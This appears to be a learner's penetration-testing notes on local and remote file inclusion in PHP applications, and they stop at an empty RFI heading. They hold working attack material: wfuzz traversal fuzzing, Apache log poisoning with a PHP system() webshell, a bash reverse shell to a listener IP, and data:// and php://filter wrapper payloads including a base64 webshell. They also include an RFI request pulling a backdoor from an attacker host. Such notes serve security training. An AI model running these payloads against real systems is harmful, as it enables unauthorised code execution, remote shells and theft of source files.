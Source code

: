 > [!NOTE]
> File inclusion vulnerabilities allow us to "include" a file in the application's running code. 

> [!Dif of dir and LFI]
> File inclusion vulnerabilities to execute local or remote files, while directory traversal only allows us to read the contents of a file


# FUZZ LFI
```
wfuzz -c -w ./lfi2.txt --hw 0 http://10.10.10.10/nav.php?page=../../../../../../../FUZZ
```

## **Linux**

**Mixing several *nix LFI lists and adding more paths I have created this one:**

https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_linux.txt

Try also to change `/` for `\` Try also to add `../../../../../`

A list that uses several techniques to find the file /etc/password (to check if the vulnerability exists) can be found [here](https://github.com/xmendez/wfuzz/blob/master/wordlist/vulns/dirTraversal-nix.txt)

https://book.hacktricks.xyz/pentesting-web/file-inclusion#windows


## **Windows**

Merge of different wordlists:

https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt

Try also to change `/` for `\` Try also to remove `C:/` and add `../../../../../`

A list that uses several techniques to find the file /boot.ini (to check if the vulnerability exists) can be found [here](https://github.com/xmendez/wfuzz/blob/master/wordlist/vulns/dirTraversal-win.txt)

# attacking Apache httpd 2.4.38 (Log poison)

### write executable code to Apache's access.log file in the /var/log/apache2/ directory

```
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log
```

![[Pasted image 20240423194916.png]]

## PHP command snippet

```
<?php echo system($_GET['cmd']); ?>
```

![[Pasted image 20240423195503.png]]

now that we have cmd access via BURP, we can run cmd commands

### get reverse shell

#revshell
```
bash -c "bash -i >& /dev/tcp/192.168.45.231/4444 0>&1"
```

![[Pasted image 20240423195610.png]]

```
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22
```

### we can execute php or any other files due to LFI

![[Pasted image 20240423200612.png]]


### poison C:\\xampp\\apache\\logs

always use /access.log at the end!

![[Pasted image 20240424095342.png]]


# PHP wrappers

bypass filter and get rce
## php://filter

PHP filters allow perform basic **modification operations on the data** before being it's read or written

there are string, conversion, encryption, compression filters
```
convert.base64-encode
```

https://book.hacktricks.xyz/pentesting-web/file-inclusion

```
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php
```

![[Pasted image 20240425220148.png]]

![[Pasted image 20240425222604.png]]

## data://

```
http://example.net/?page=data://text/plain,<?php echo base64_encode(file_get_contents("index.php")); ?>
http://example.net/?page=data://text/plain,<?php phpinfo(); ?>
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
http://example.net/?page=data:text/plain,<?php echo base64_encode(file_get_contents("index.php")); ?>
http://example.net/?page=data:text/plain,<?php phpinfo(); ?>
http://example.net/?page=data:text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```

Note that this protocol is restricted by php configurations `**allow_url_open**` and `**allow_url_include**`

![[Pasted image 20240425222927.png]]

```
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"
```

> [!NOTE]
> always use "" in URL

![[Pasted image 20240425223118.png]]

![[Pasted image 20240425223339.png]]

```
curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.119.3/simple-backdoor.php&cmd=ls"
```


# RFI

